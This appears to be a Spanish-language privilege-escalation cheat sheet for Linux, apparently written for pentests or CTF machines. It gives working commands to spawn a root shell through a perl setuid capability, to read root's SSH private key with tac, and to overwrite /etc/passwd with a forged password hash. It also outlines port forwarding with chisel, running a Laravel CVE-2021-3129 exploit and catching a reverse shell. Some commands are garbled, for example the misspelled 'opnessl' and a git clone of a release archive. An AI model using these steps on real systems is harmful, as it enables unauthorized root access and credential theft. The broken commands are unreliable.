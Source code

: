 - /usr/bin/perl -> cap_setuid+ep.<br>+ep significa que la capability es efectiva y permitida.<br>
Esta capability te permite controlar el identificador de usuario para convertirte en usuario root cambiando el uid. Para escalar privilegios lo primero que se hace es asignarle la capability cap_setuid+ep al binario perl y despues se ejecuta una instrucción que te arrogará una consola como root.
```
setcap cap_setuid+ep perl
./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```
- /usr/bin/tac -> cap_dac_read_search+ei.<br>Esta capability se puede asignar a un binario, en este caso esta asignada al binario tac el cual es un como un cat solo que invierte el output. Con el binario tac puedes ver la id_rsa de un usuario que este dentro del sistema o bien del usuario root para conectarte de forma remota por el puerto 22 (SSH) si se encuentra abierto. Tambien con esta capability puedes salir de un contenedor para conectarte directo al sistema.
```
tac /root/.ssh/id_rsa | tac -> Se le concatena otro tac para regresar el output a la normalidad.
```
<br><br>
## ps -faux | ps -e command.
Listar los procesos que se estan ejecutando.
<br><br>
## find / -writable -ls 2>/dev/null.
Listar aquellos archivos que tengan capacidad de escritura para despues injectarles código malicioso. Puedes usar regex para ir filtrando los archivos.<br>
```
find / -writable -ls 2>/dev/null | grep -vE "/var|/run|/dev|/proc|/sys|/tmp" 
# Con grep -vE "" vas ir quitando las lineas que hagan match.
```
Si al ir filtrando vez que el /etc/passwd tiene capacidad de escritura puedes crear una contraseña DES(unix) con openssl para sustiturla en el /etc/passwd y se interprete primero ésta primero antes de la original, situada en el /etc/shadow.
```
opnessl passwd <EstaEsUnaContraseña> 
password: <ContraseñaDeCifrado>
# Posteriormente te pedira una contraseña para cifrar el texto que pusiste anteriormente y esa misma contraseña de cifrado 
# seŕa la que te pida al hacer su root.

su root
password: <ContraseñaDeCifrado>
```
<br><br>
## netstat -nat | ss-nltp.
Comando para ver los puertos que se encuentran abiertos internamente en el equipo y aplicar un Port Forwarding.<br>El Port Forwarding es básicamente traerte un puerto que se este abierto internamente en la maquina víctima a tu equipo de atacante.<br>

Si al aplicar el comando netstat -nat o ss-nltp logras ver el puerto 8000 abierto y en el esta corriendo laravel que por lo regular laravel corre en ese puerto por default a menos que se modifique, puedes llegar a escalar privilegios sino esta sanitizado.<br>
- Lo primero tienes que hacer es clonar chisel de github y redudir el peso para que no tarde al transferirlo a la máquina víctima.<br>Te compartes un servicio http con python y transfieres el chisel en un directorio que tenga capacidad de escritura, le asignas permisos de ejecución y lo ejecutas.<br>Te clonas la CVE-2021-3129 de github, ingresas en el directorio creado y te ejecutas el exploit.py.<br>Desde otra ventana te creas un archivo que contenga una reverse shell y compartes un servicio http.<br>En otra ventana te pones en escucha con ncat para que al ejecutar el exploit.py de la CVE-2021-3129 esta hace un curl a tu servicio compartido y te envia una reverse shell al ncat por el puerto 443.
```
git clone https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_arm64.gz
cd chisel && go build -ldflags "-s -w" . && upx chisel  # Reducir el peso del chisel.
sudo python3 -m http.server 80

```
